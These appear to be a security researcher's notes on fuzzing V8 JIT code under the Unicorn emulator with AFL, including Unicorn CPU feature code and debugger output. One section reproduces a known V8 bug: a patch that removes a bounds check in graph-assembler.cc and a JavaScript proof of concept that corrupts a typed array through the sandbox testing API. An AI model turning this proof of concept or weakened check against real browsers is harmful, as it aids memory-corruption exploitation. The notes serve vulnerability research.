   0x555555c48364 func+4>:	push   r15
   0x555555c48366 func+6>:	push   r14
   0x555555c48368 func+8>:	push   r13
   0x555555c4836a func+10>:	push   r12
   0x555555c4836c func+12>:	push   rbx
   0x555555c4836d func+13>:	sub    rsp,0x38
   0x555555c48371 func+17>:	mov    r12d,edx
   0x555555c48374 func+20>:	mov    r14,rsi
   0x555555c48377 func+23>:	mov    rbx,rdi
   0x555555c4837a func+26>:	mov    rax,QWORD PTR fs:0x28
   0x555555c48383 func+35>:	mov    QWORD PTR [rbp-0x30],rax
   0x555555c48387 func+39>:	test   edx,edx
   0x555555c48389 func+41>:	je     0x555555c4840f func+175>

breakpoint:
2       breakpoint     keep y   0x0000555555c48383
```

Solution: https://github.com/unicorn-engine/unicorn/issues/1152

### New SSE instructions

SSE4.1 (Streaming SIMD Extensions 4.1) includes a set of 47 new instructions. Here's a comprehensive list of the instructions introduced in SSE4.1:

Packed Integer Operations:

    - PBLENDVB: Variable Blend Packed Bytes
    - PMULDQ: Multiply Packed Signed Dword Integers
    - PMULLD: Multiply Packed Signed Dword Integers and Store Low Result
    - PTEST: Logical Compare
    - PHMINPOSUW: Packed Horizontal Word Minimum


Dword Multiply Operations:

    - PMULDQ: Multiply Packed Signed Dword Integers
    - PMULLD: Multiply Packed Signed Dword Integers and Store Low Result


Floating-Point Rounding Operations:

    - ROUNDPS: Round Packed Single Precision Floating-Point Values
    - ROUNDPD: Round Packed Double Precision Floating-Point Values
    - ROUNDSS: Round Scalar Single Precision Floating-Point Values
    - ROUNDSD: Round Scalar Double Precision Floating-Point Value


Packed Blending Operations:

    - BLENDPD: Blend Packed Double Precision Floating-Point Values
    - BLENDPS: Blend Packed Single Precision Floating-Point Values
    - BLENDVPD: Variable Blend Packed Double Precision Floating-Point Values
    - BLENDVPS: Variable Blend Packed Single Precision Floating-Point Values
    - PBLENDVB: Variable Blend Packed Bytes
    - PBLENDW: Blend Packed Words


Packed Integer Min/Max Operations:

    - PMINUW: Minimum of Packed Word Integers
    - PMINUD: Minimum of Packed Dword Integers
    - PMINSB: Minimum of Packed Signed Byte Integers
    - PMINSD: Minimum of Packed Signed Dword Integers
    - PMAXUW: Maximum of Packed Word Integers
    - PMAXUD: Maximum of Packed Dword Integers
    - PMAXSB: Maximum of Packed Signed Byte Integers
    - PMAXSD: Maximum of Packed Signed Dword Integers


Packed Integer Format Conversions:

    - PMOVSXBW, PMOVSXBD, PMOVSXBQ: Sign Extend Packed Integer Values
    - PMOVSXWD, PMOVSXWQ: Sign Extend Packed Integer Values
    - PMOVSXDQ: Sign Extend Packed Integer Values
    - PMOVZXBW, PMOVZXBD, PMOVZXBQ: Zero Extend Packed Integer Values
    - PMOVZXWD, PMOVZXWQ: Zero Extend Packed Integer Values
    - PMOVZXDQ: Zero Extend Packed Integer Values


Packed Dword to Packed Single-Precision Floating-Point Conversion:

CVTPS2DQ: Convert Packed Single-Precision FP Values to Packed Dword Integers
CVTDQ2PS: Convert Packed Dword Integers to Packed Single-Precision FP Values


Memory Access:

MOVNTDQA: Load Double Quadword Non-Temporal Aligned Hint


String and Text Processing:

MPSADBW: Compute Multiple Packed Sums of Absolute Difference


Dot Product:

DPPS: Dot Product of Packed Single Precision Floating-Point Values
DPPD: Dot Product of Packed Double Precision Floating-Point Values


Other:

INSERTPS: Insert Packed Single Precision Floating-Point Value
EXTRACTPS: Extract Packed Single Precision Floating-Point Value
PINSRB, PINSRD, PINSRQ: Insert Byte/Dword/Qword
PEXTRB, PEXTRD, PEXTRQ: Extract Byte/Dword/Qword


These instructions significantly enhanced SIMD capabilities, particularly for multimedia processing, 3D graphics, scientific computations, and general-purpose computing on GPUs (GPGPU) applications.


**translate.c is the most important**


Enable some features

```cpp
static void i386_tr_init_disas_context(DisasContextBase *dcbase, CPUState *cpu)
{
    DisasContext *dc = container_of(dcbase, DisasContext, base);
    TCGContext *tcg_ctx = cpu->uc->tcg_ctx;
    CPUX86State *env = cpu->env_ptr;
    uint32_t flags = dc->base.tb->flags;
    target_ulong cs_base = dc->base.tb->cs_base;

    // unicorn setup
    dc->uc = cpu->uc;
    dc->pe = (flags >> HF_PE_SHIFT) & 1;
    dc->code32 = (flags >> HF_CS32_SHIFT) & 1;
    dc->ss32 = (flags >> HF_SS32_SHIFT) & 1;
    dc->addseg = (flags >> HF_ADDSEG_SHIFT) & 1;
    dc->f_st = 0;
    dc->vm86 = (flags >> VM_SHIFT) & 1;
    dc->cpl = (flags >> HF_CPL_SHIFT) & 3;
    dc->iopl = (flags >> IOPL_SHIFT) & 3;
    dc->tf = (flags >> TF_SHIFT) & 1;
    dc->cc_op = CC_OP_DYNAMIC;
    dc->cc_op_dirty = false;
    dc->cs_base = cs_base;
    dc->popl_esp_hack = 0;
    /* select memory access functions */
    dc->mem_index = 0;
    dc->mem_index = cpu_mmu_index(env, false);
    dc->cpuid_features = env->features[FEAT_1_EDX];
    dc->cpuid_ext_features = env->features[FEAT_1_ECX];
    dc->cpuid_ext2_features = env->features[FEAT_8000_0001_EDX];
    dc->cpuid_ext3_features = env->features[FEAT_8000_0001_ECX];
    dc->cpuid_7_0_ebx_features = env->features[FEAT_7_0_EBX];
    dc->cpuid_xsave_features = env->features[FEAT_XSAVE];
//...
}
X86CPU *cpu_x86_init(struct uc_struct *uc)
{
    X86CPU *cpu;
    CPUState *cs;
    CPUClass *cc;
    X86CPUClass *xcc;

    cpu = calloc(1, sizeof(*cpu));
    /* init CPUState */
    cpu_common_initfn(uc, cs);
//...
    /* realize X86CPU */
    x86_cpu_realizefn(uc, cs); // <== init featuring here
//...
    /* init X86CPUModel */
    /* Ignore X86CPUVersion, X86CPUVersionDefinition.
       we do not need so many cpu types and their property.
       version: more typename. x86_cpu_versioned_model_name().
       alias: more property. */
    xcc = &cpu->cc;
    xcc->model = calloc(1, sizeof(*(xcc->model)));
    if (xcc->model == NULL) {
        free(cpu);
        return NULL;
    }

    xcc->model->version = CPU_VERSION_AUTO;
    xcc->model->cpudef = &builtin_x86_defs[uc->cpu_model];

    if (xcc->model->cpudef == NULL) {
        free(xcc->model);
        free(cpu);
        return NULL;
    }

}

/* Load data from X86CPUDefinition into a X86CPU object
 */
static void x86_cpu_load_model(X86CPU *cpu, X86CPUModel *model)
{
    X86CPUDefinition *def = model->cpudef;
    CPUX86State *env = &cpu->env;
    FeatureWord w;

    env->cpuid_min_level = def->level;
    env->cpuid_xlevel = def->xlevel;
    x86_cpuid_version_set_family(cpu, def->family);
    x86_cpuid_version_set_model(cpu, def->model);
    x86_cpuid_version_set_stepping(cpu, def->stepping);
    x86_cpuid_set_model_id(cpu, def->model_id);
    for (w = 0; w < FEATURE_WORDS; w++) {
        env->features[w] = def->features[w];
    }
    //...
}

// init CPU
X86CPU *cpu_x86_init(struct uc_struct *uc)
{
    X86CPU *cpu;
    CPUState *cs;
    CPUClass *cc;
    X86CPUClass *xcc;
    //...
}

void cpu_common_initfn(struct uc_struct *uc, CPUState *cs)
{
    CPUState *cpu = CPU(cs);

    cpu->cpu_index = UNASSIGNED_CPU_INDEX;
    cpu->cluster_index = UNASSIGNED_CLUSTER_INDEX;
    /* *-user doesn't have configurable SMP topology */
    /* the default value is changed by qemu_init_vcpu() for softmmu */
    cpu->nr_cores = 1;
    cpu->nr_threads = 1;

    QTAILQ_INIT(&cpu->breakpoints);
    QTAILQ_INIT(&cpu->watchpoints);

    /* cpu_exec_initfn(cpu); */
    cpu->num_ases = 1;
    cpu->as = &(cpu->uc->address_space_memory);
    cpu->memory = cpu->uc->system_memory;
}


// set expand features
    x86_cpu_expand_features(cpu);

    x86_cpu_filter_features(cpu, cpu->check_cpuid || cpu->enforce_cpuid);


/* Expand CPU configuration data, based on configured features
 * and host/accelerator capabilities when appropriate.
 */
static void x86_cpu_expand_features(X86CPU *cpu)
{
    CPUX86State *env = &cpu->env;
    FeatureWord w;

    /*TODO: Now cpu->max_features doesn't overwrite features
     * set using QOM properties, and we can convert
     * plus_features & minus_features to global properties
     * inside x86_cpu_parse_featurestr() too.
     */
    if (cpu->max_features) {
        for (w = 0; w < FEATURE_WORDS; w++) {
            /* Override only features that weren't set explicitly
             * by the user.
             */
            env->features[w] |=
                x86_cpu_get_supported_feature_word(w, cpu->migratable) &
                ~env->user_features[w] & \
                ~feature_word_info[w].no_autoenable_flags;
        }
    }
//...
}

static void x86_cpu_initfn(struct uc_struct *uc, CPUState *obj)
{
    X86CPU *cpu = X86_CPU(obj);
    X86CPUClass *xcc = X86_CPU_GET_CLASS(obj);
    CPUX86State *env = &cpu->env;

    env->nr_dies = 1;
    env->nr_nodes = 1;
    cpu_set_cpustate_pointers(cpu);
    env->uc = uc;

    if (xcc->model) {
        x86_cpu_load_model(cpu, xcc->model);
    }
}
```
About:

To enable specific features in FEAT_1_ECX (CPUID function 1, ECX register) on an AMD Linux system, you typically need to work with the CPU's Model-Specific Registers (MSRs) or use system calls

**Errors defined**

```cpp
// All type of errors encountered by Unicorn API.
// These are values returned by uc_errno()
typedef enum uc_err {
    UC_ERR_OK = 0,         // No error: everything was fine
    UC_ERR_NOMEM,          // Out-Of-Memory error: uc_open(), uc_emulate()
    UC_ERR_ARCH,           // Unsupported architecture: uc_open()
    UC_ERR_HANDLE,         // Invalid handle
    UC_ERR_MODE,           // Invalid/unsupported mode: uc_open()
    UC_ERR_VERSION,        // Unsupported version (bindings)
    UC_ERR_READ_UNMAPPED,// 6  // Quit emulation due to READ on unmapped memory:
                           // uc_emu_start()
    UC_ERR_WRITE_UNMAPPED, // Quit emulation due to WRITE on unmapped memory:
                           // uc_emu_start()
    UC_ERR_FETCH_UNMAPPED, // Quit emulation due to FETCH on unmapped memory:
                           // uc_emu_start()
    UC_ERR_HOOK,           // Invalid hook type: uc_hook_add()
    UC_ERR_INSN_INVALID, // 10  // Quit emulation due to invalid instruction:
                           // uc_emu_start()
    UC_ERR_MAP,            // Invalid memory mapping: uc_mem_map()
    UC_ERR_WRITE_PROT,     // Quit emulation due to UC_MEM_WRITE_PROT violation:
                           // uc_emu_start()
    UC_ERR_READ_PROT,      // Quit emulation due to UC_MEM_READ_PROT violation:
                           // uc_emu_start()
    UC_ERR_FETCH_PROT,     // Quit emulation due to UC_MEM_FETCH_PROT violation:
                           // uc_emu_start()
    UC_ERR_ARG, // Inavalid argument provided to uc_xxx function (See specific
                // function API)
    UC_ERR_READ_UNALIGNED,  // Unaligned read
    UC_ERR_WRITE_UNALIGNED, // Unaligned write
    UC_ERR_FETCH_UNALIGNED, // Unaligned fetch
    UC_ERR_HOOK_EXIST,      // hook for this event already existed
    UC_ERR_RESOURCE,        // Insufficient resource: uc_emu_start()
    UC_ERR_EXCEPTION,       // Unhandled CPU exception
    UC_ERR_OVERFLOW,        // Provided buffer is not large enough: uc_reg_*2()
} uc_err;

```

SIMD - simple instruction multi data

```cpp
static void decode_opc(CPUMIPSState *env, DisasContext *ctx)
{
    TCGContext *tcg_ctx = ctx->uc->tcg_ctx;
    int32_t offset;
    int rs, rt, rd, sa;
    uint32_t op, op1;
    int16_t imm;
    //...
    case OPC_CP2:
        check_insn(ctx, INSN_LOONGSON2F);
        /* Note that these instructions use different fields.  */
        gen_loongson_multimedia(ctx, sa, rd, rt);
        break;

/* Loongson multimedia instructions */
static void gen_loongson_multimedia(DisasContext *ctx, int rd, int rs, int rt)
{
    TCGContext *tcg_ctx = ctx->uc->tcg_ctx;
    uint32_t opc, shift_max;
    TCGv_i64 t0, t1;
    TCGCond cond;
    case OPC_PCMPEQB:
        gen_helper_pcmpeqb(tcg_ctx, t0, t0, t1);
        break;
}

static void gen_sse(CPUX86State *env, DisasContext *s, int b,
                    target_ulong pc_start, int rex_r)
{
    // printf("########33 gen_sse b: 0x%x\n", b);  
    TCGContext *tcg_ctx = s->uc->tcg_ctx;
   modrm = x86_ldub_code(env, s);
    reg = ((modrm >> 3) & 7);
    if (is_xmm)
        reg |= rex_r;
    mod = (modrm >> 6) & 3;
    /* VEX.L (256 bit) encodings are not supported */
    if (s->vex_l != 0) {
        printf("\t#### gen_sse s->vex_l: 0x%x \n\tVEX.L (256 bit) encodings are not supported\n", s->vex_l);
        goto illegal_op; // perhaps it should be unknown_op?
    }
//...
}

```

Output:

```bash
[uc] exec tb 0x7ffff7dc5900: 36.001000us
	######## gen_sse b: 0x74 b1: 0x1 sse_fn_epp: 0x55555684c480
	#### gen_sse s->vex_l: 0x1 
	VEX.L (256 bit) encodings are not supported
	######### b: 0x74 gen_sse illegal_op
[uc] translate tb 0x7ffff7dc5915: 17.078000us
    0x7ffff7dc5915: vpcmpeqb ymm1, ymm0, ymmword ptr [rdi]
>>> invalid memory accessed, STOP !!

```


### Solution

Disable features 

```cpp
void CpuFeatures::ProbeImpl(bool cross_compile) {
  base::CPU cpu;
  CHECK(cpu.has_sse2());  // SSE2 support is mandatory.
  CHECK(cpu.has_cmov());  // CMOV support is mandatory.

  // Only use statically determined features for cross compile (snapshot).
  if (cross_compile) return;

  if (cpu.has_sse42()) SetSupported(SSE4_2);
  if (cpu.has_sse41()) SetSupported(SSE4_1);
  if (cpu.has_ssse3()) SetSupported(SSSE3);
  if (cpu.has_sse3()) SetSupported(SSE3);
  if (cpu.has_avx() && cpu.has_osxsave() && OSHasAVXSupport()) {
    SetSupported(AVX);
    if (cpu.has_avx2()) SetSupported(AVX2);
    if (cpu.has_fma3()) SetSupported(FMA3);
  }

  if (cpu.has_bmi1() && v8_flags.enable_bmi1) SetSupported(BMI1);
  if (cpu.has_bmi2() && v8_flags.enable_bmi2) SetSupported(BMI2);
  if (cpu.has_lzcnt() && v8_flags.enable_lzcnt) SetSupported(LZCNT);
  if (cpu.has_popcnt() && v8_flags.enable_popcnt) SetSupported(POPCNT);
  if (strcmp(v8_flags.mcpu, "auto") == 0) {
    if (cpu.is_atom()) SetSupported(INTEL_ATOM);
  } else if (strcmp(v8_flags.mcpu, "atom") == 0) {
    SetSupported(INTEL_ATOM);
  }
```


### Reproducing Manfred's bug

- Issue: https://chromium-review.googlesource.com/c/v8/v8/+/5383483

Patch `src/compiler/graph-assembler.cc` file:

```cpp
    // 4) Length-tracking backed by GSAB (BackingStore stores the length)
    auto GsabTracking = [&]() {
      TNode<Number> temp = TNode<Number>::UncheckedCast(a.TypeGuard(
          TypeCache::Get()->kJSArrayBufferViewByteLengthType,
          a.JSCallRuntime1(Runtime::kGrowableSharedArrayBufferByteLength,
                           buffer, context, base::nullopt,
                           Operator::kNoWrite)));
      TNode<UintPtrT> byte_length =
          a.EnterMachineGraph<UintPtrT>(temp, UseInfo::Word());
      TNode<UintPtrT> byte_offset = MachineLoadField<UintPtrT>(
          AccessBuilder::ForJSArrayBufferViewByteOffset(), view,
          UseInfo::Word());

      return a
          .MachineSelectIf<UintPtrT>(
              a.UintPtrLessThanOrEqual(byte_offset, byte_length))
          .Then([&]() {
            // length = floor((byte_length - byte_offset) / element_size)
            return a.UintPtrDiv(a.UintPtrSub(byte_length, byte_offset),
                                a.ChangeUint32ToUintPtr(element_size));
          })
          .Else([&]() { return a.UintPtrConstant(0); })
          .ExpectTrue()
          .Value();
    };

// ===================
    // 4) Length-tracking backed by GSAB (BackingStore stores the length)
    auto GsabTracking = [&]() {
      TNode<Number> temp = TNode<Number>::UncheckedCast(a.TypeGuard(
          TypeCache::Get()->kJSArrayBufferViewByteLengthType,
          a.JSCallRuntime1(Runtime::kGrowableSharedArrayBufferByteLength,
                           buffer, context, base::nullopt,
                           Operator::kNoWrite)));
      TNode<UintPtrT> byte_length =
          a.EnterMachineGraph<UintPtrT>(temp, UseInfo::Word());
      TNode<UintPtrT> byte_offset = MachineLoadField<UintPtrT>(
          AccessBuilder::ForJSArrayBufferViewByteOffset(), view,
          UseInfo::Word());

      return a.UintPtrDiv(a.UintPtrSub(byte_length, byte_offset),
                          a.ChangeUint32ToUintPtr(element_size));
```

- POC:

```js
// r --expose-gc --allow-natives-syntax --sandbox-testing ../../../tests/test3.js

let sandboxMemory = new DataView(new Sandbox.MemoryView(0, 0x100000000));

function addrOf(obj) {
    return Sandbox.getAddressOf(obj);
  }
  
  function v8_read64(addr) {
    return sandboxMemory.getBigUint64(Number(addr), true);
  }
  
  function v8_write64(addr, val) {
    return sandboxMemory.setBigInt64(Number(addr), val, true);
  }

const gsab = new SharedArrayBuffer(0x16,{"maxByteLength":0x4242});
const u16arr = new Uint16Array(gsab,0x10);
// u16arr[1] = 1;
// console.log(u16arr[1]);

function foo(obj,index, val) {
    obj[index] += val;
    return obj[index];

}

function test(iii,val) {
    return foo(u16arr, iii, val);
}

for (var i = 0; i < 0x10000; ++i) {
    test(1,0);
}
// %DebugPrint(gsab);
%DebugPrint(u16arr);
console.log(addrOf(u16arr));
console.log(v8_read64(addrOf(u16arr)+0x17));

v8_write64(addrOf(u16arr)+0x19,0x2e00000n);

test(1, 0);

```

**Current idea is make the emulator running only `test` function in jit**


```js
pwndbg> bt
#0  pkey_read () at ../sysdeps/unix/sysv/linux/x86/pkey_set.c:30
#1  pkey_set (key=1, rights=1) at ../sysdeps/unix/sysv/linux/x86/pkey_set.c:31
#2  0x00007fffed0fa24d in v8::base::MemoryProtectionKey::SetPermissionsForKey(int, v8::base::MemoryProtectionKey::Permission) () at ../../src/base/platform/memory-protection-key.cc:86
#3  0x00007ffff4e2b4a1 in v8::internal::SandboxHardwareSupport::BlockAccessScope::BlockAccessScope(int) () at ../../src/sandbox/hardware-support.cc:62
#4  0x00007ffff4e2b461 in v8::internal::SandboxHardwareSupport::MaybeBlockAccess() () at ../../src/sandbox/hardware-support.cc:56
#5  0x00007ffff4482ea9 in v8::internal::Arguments<(v8::internal::ArgumentsType)0>::address_of_arg_at(int) const () at ../../src/execution/arguments.h:79
#6  0x00007ffff4d3c606 in v8::internal::Handle<v8::internal::JSArrayBuffer> v8::internal::Arguments<(v8::internal::ArgumentsType)0>::at<v8::internal::JSArrayBuffer>(int) const () at ../../src/execution/arguments.h:99
#7  0x00007ffff4e0a5d7 in v8::internal::__RT_impl_Runtime_GrowableSharedArrayBufferByteLength(v8::internal::Arguments<(v8::internal::ArgumentsType)0>, v8::internal::Isolate*) () at ../../src/runtime/runtime-typedarray.cc:70
#8  0x00007ffff4e0a2a0 in v8::internal::Runtime_GrowableSharedArrayBufferByteLength(int, unsigned long*, v8::internal::Isolate*) () at ../../src/runtime/runtime-typedarray.cc:67
#9  0x00007fff7f8549bd in ?? ()

```

**Should not run with debug binary, cause it's enable lots of DCHECK**

Now, the problem is how to find the address of `test` jit funciton on baseline memory??
why they don't have optimized jit memory?


```js
pwndbg> bl
Num     Type           Disp Enb Address            What
2       breakpoint     keep y   0x00005555b6b80054 
	breakpoint already hit 1 time
3       breakpoint     keep y   0x00005555b6b800a9 


 ► 0x5555b6b80163    ret    0x18
// ================
0x1e5c00049c55 <SharedArrayBuffer map = 0x1e5c00191c89>
0x1e5c00049c89 <Uint16Array map = 0x1e5c0018d9dd>


```

Run fuzzer:

```bash
CONTEXT_DIR=UnicornContext_20240726_142026 AFL_DEBUG=1 afl-fuzz -U -m none -i sample_inputs/ -o fuzz_out1 -- ./harness @@
```